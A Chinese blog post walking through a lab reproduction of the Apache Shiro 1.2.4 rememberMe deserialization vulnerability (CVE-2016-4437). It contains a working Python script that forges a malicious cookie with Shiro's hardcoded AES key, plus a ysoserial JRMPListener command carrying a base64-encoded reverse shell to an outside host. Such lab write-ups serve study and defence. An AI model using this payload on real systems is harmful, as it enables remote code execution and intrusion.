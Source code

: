 ```yaml
---
layout:     post
title:      【漏洞复现】Apache Shiro 1.2.4反序列化漏洞复现及分析(cve-2016-4437)
subtitle:   反序列化漏洞
date:       2020-10-16
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现 
---
```


## 0x00 漏洞说明
Shiro提供了RememberMe的功能。

Shiro对rememberMe的cookie做了加密处理，当用户登陆成功时，shiro在CookieRememberMeManaer类中将cookie中rememberMe字段内容分别进行 序列化、AES加密、Base64编码操作。
在识别身份的时候，需要对Cookie里的rememberMe字段解密。因此，shiro的解密顺序为：
- 获取rememberMe cookie
- base64 decode
- 解密AES
- 反序列化
由于AES加密的密钥Key以及加密模式被硬编码在代码里，已经可以对AES进行解密，解密和加密完全是对称的。

因此，攻击者构造一个恶意的对象，并且对其序列化，AES加密，base64编码后，作为cookie的rememberMe字段发送。Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞。
## 0x01 漏洞环境
/vulhub/shiro/CVE-2016-4437
## 0x02 漏洞复现

启动docker后访问IP:8080
![-c1791](/img/16027816304805.jpg)


使用bp重放，可看到成功登陆会生成一个rememberme字段
![-c1168](/img/16027816452934.jpg)


下载并生成ysoserial工具
```shell
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -D skipTests
```
![-c826](/img/16027816617110.jpg)


使用以下脚本构造恶意对象
```py
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
 
if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())
```
![-c980](/img/16027816771014.jpg)

加密反弹shell指令

![-c934](/img/16027816907106.jpg)

通过 ysoserial中的JRMP监听模块，监听 6666 端口并执行反弹shell命令
```shell
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMS4xLzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}'
```

==payloads/JRMPClient 是结合 exploit/JRMPListener 使用的；
JRMPListener是ysoserial 工具里的其中一个利用模块，作用是通过反序列化，开启当前主机的一个 JRMP Server ，具体的利用过程是，将反序列化数据 发送到 Server 中，然后Server中进行反序列化操作，并开启指定端口，然后在通过JRMPClient去发送攻击 payload；
payloads/JRMPClient 生存的 payload 是发送给目标机器的，exploit/JRMPListener 是在自己服务器上使用的。==

将生成的恶意对象替换原来的cookie信息，重放

![-c1171](/img/16027817043168.jpg)

或使用章神的工具：

![-c928](/img/16027817201111.jpg)

JRMPListener监听到链接

![-c726](/img/16027817416830.jpg)

成功反弹shell

![-c627](/img/16027817523736.jpg)
